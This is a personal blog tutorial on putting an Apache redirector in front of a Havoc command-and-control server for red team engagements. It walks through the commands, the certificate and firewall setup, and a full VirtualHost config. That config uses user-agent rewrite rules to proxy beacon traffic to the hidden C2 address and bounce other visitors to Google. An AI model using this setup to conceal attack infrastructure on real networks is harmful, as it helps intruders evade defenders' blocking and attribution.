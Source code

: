 ```yaml
---
layout: default
title: OopsBeacon
---
```


## ./Whoami

Hey everyone! My name is Abdullah. I’m here to keep improving — growing my skills and becoming a better writer. I write these blogs to share what I discover and to document my progress. I hope you find something helpful here, and I look forward to learning and improving together!

![Oops Beacon GIF](./images/133753c4-e1c8-4b36-879c-bf5d436f78b8_text.gif)


## But what is a "Redirector"?

Generally, a redirector is used to move traffic from one machine or server to another machine (which, in our case, is our C2). So the redirector will take our "Beacon" traffic and forward it to the real C2 server.

## Why Use a Redirector?

The main idea behind using a redirector is to hide your C2 server’s real IP address. For example, if you were conducting a red team engagement without a redirector and a firewall blocked your C2 IP, you’d be done for, and will not be able to continue the engagement. But if you had a redirector, it would hide the C2’s true IP, so the firewall would only block the redirector’s IP. In that case, you can just spin up a new redirector and stay operational.


![Redirector diagram](./images/Pasted%20image%2020250708212556.png)

-----

#### The Set-up You'll Need 

- VPS  (Redirector): You can use any cheap VPS with Apache2 installed . (10.10.10.3)
- VPS (C2 server) : You use any C2 framework — in my case will be using Havoc C2 . (10.10.10.2)
- Attacker Machine ( Kali linux) . (10.10.10.1)

> **Note:** You can use any Linux system for your redirector. 


----

### Installing and Configuring Apache


- First, we need to install Apache on our redirector . Simply , run `apt-get install apache2` .

![Apache install](./images/Pasted%20image%2020250708214542.png)


- After downloading apache , activate these modules 

```
sudo a2enmod proxy && sudo a2enmod proxy_http && sudo a2enmod proxy_ajp && sudo a2enmod rewrite && sudo a2enmod deflate&&sudo a2enmod headers && sudo a2enmod proxy_balancer && sudo a2enmod proxy_connect && sudo a2enmod proxy_html
```

Since we are working on HTTPS , we need to create SSL certificates (Self-signed)  :

```
openssl req -new -newkey rsa:2048 -nodes -keyout redirector.key -x509 -days 365 -out redirector.crt
```

Before moving on to launching apache2 , we need to open the port 443 on our firewall to allow the connections being made :

```
sudo ufw allow 443
```

> To install UFW,  just use `apt-get install ufw` > `sudo ufw enable`

Now, we want apache to use port 443 instead of 80 and we want to specify the path to our newly generated SSL certificate . 

```
nano /etc/apache2/sites-available/000-default.conf
```

Paste this :

```
<VirtualHost *:443>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

    SSLEngine on
    SSLProxyEngine on

    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

    SSLCertificateFile /home/kali/redirector.crt
    SSLCertificateKeyFile /home/kali/redirector.key

    RewriteEngine on
    RewriteCond %{HTTP_USER_AGENT} ^Havoc [NC]
    RewriteRule ^(.*)$ https://10.10.10.2:443/$1 [P]  # C2 ip goes HERE 

    RewriteCond %{HTTP_USER_AGENT} !^Havoc [NC]
    RewriteRule ^(.*)$ https://www.google.com/ [R,L]

    ProxyPreserveHost On
</VirtualHost>


```

Change `SSLCertificateFile`  and `SSLCertificateKeyFile` to where you saved the generated SSL certificate . 


To elaborate further on what is going on the code here , 
```
RewriteEngine on
    RewriteCond %{HTTP_USER_AGENT} ^Havoc [NC]
    RewriteRule ^(.*)$ https://10.10.10.2:443/$1 [P]
```

Here when any request is sent to our redirector it will check the `User-agent` header and if the value is `Havoc` , then the redirector will allow the request to be sent to the C2 Server.



On the other hand ,

```
RewriteCond %{HTTP_USER_AGENT} !^Havoc [NC]
    RewriteRule ^(.*)$ https://www.google.com/ [R,L]
```

This is the opposite rule to the above , if the `User-Agent` value isn't `Havoc` then the request will be redirected to google . This way we keep our Havoc server safe from any outsider request . 



Lastly , we now start the Apache2 service  :

```
sudo service apache2 start
```

![Apache start](./images/Pasted%20image%2020250708223258.png)
> If you encounter SSL errors , try to enable SSL `sudo a2enmod ssl`


![Funny Beacon GIF](./images/4c62b8664b2aa5d5c16e080936e52a88.gif)



------


### Configuring Havoc HTTPS listener

![Havoc listener](./images/Pasted%20image%2020250712174456.png)

- In the "Hosts" field we put our redirector ip address . This would tell the listener to wait for incoming HTTPs requests from the redirector we specified. 

- Both "PortBind" and "PortConn" fields will be 443, since the redirector is going to listen on port 443, so will our C2 server .

- In the "User-agent" field, we will put the one the we specified earlier on the apache server config. In our case its "HAVOC".


Finally, click save and you are ready to go . Now the generated payloads will connect to our redirector instead of our Havoc c2 . In order to test it yourselves, you can use `netstat -ano | findstr 443` , you will see that the machine(victim) is connected to your redirector IP and there is no way to find the real C2 server IP.




## Conclusion 

I have other ideas to share when it comes to making "Redirectors" . There are more versatile ways that are more evasive and can evade "NDRs" , and that would be preformed in actual red team engagements . If you are interested, just tell me and I will be more than happy to provide :D . 


---

## Contact

If you want to reach me, feel free to hit me up on Telegram: [@rankiv](https://t.me/rankiv)
